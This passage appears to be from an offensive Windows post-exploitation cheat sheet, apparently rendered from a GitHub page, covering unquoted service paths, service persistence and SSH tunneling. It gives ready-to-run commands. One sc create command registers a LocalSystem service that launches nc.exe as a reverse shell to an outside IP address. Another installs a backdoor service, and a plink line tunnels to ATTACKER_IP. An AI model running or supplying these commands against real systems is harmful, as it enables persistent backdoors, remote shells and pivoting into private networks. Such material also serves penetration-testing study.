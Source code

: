 ### Unquoted Service Path <a id="unquoted-service-path"></a>

```text
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

### Persistence via Services <a id="persistence-via-services"></a>

```bash
# cmd
sc create spotlessSrv binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""​

# powershell
New-Service -Name EvilName -DisplayName EvilSvc -BinaryPathName "'C:\Program Files\NotEvil\back.exe'" -Description "Not at all"
```

### Port Forwarding / SSH Tunneling <a id="port-forwarding-ssh-tunneling"></a>

#### SSH: Local Port Forwarding <a id="ssh-local-port-forwarding"></a>

```bash
# Listen on local port 8080 and forward incoming traffic to REMOT_HOST:PORT via SSH_SERVER
# Scenario: access a host that's being blocked by a firewall via SSH_SERVER;
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

#### SSH: Dynamic Port Forwarding <a id="ssh-dynamic-port-forwarding"></a>

```bash
# Listen on local port 8080. Incoming traffic to 127.0.0.1:8080 forwards it to final destination via SSH_SERVER
# Scenario: proxy your web traffic through SSH tunnel OR access hosts on internal network via a compromised DMZ box;
ssh -D 127.0.0.1:8080 user@SSH_SERVER
```

#### SSH: Remote Port Forwarding <a id="ssh-remote-port-forwarding"></a>

```bash
# Open port 5555 on SSH_SERVER. Incoming traffic to SSH_SERVER:5555 is tunneled to LOCALHOST:3389
# Scenario: expose RDP on non-routable network;
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
plink -R ATTACKER:ATTACKER_PORT:127.0.01:80 -l root -pw pw ATTACKER_IP
```
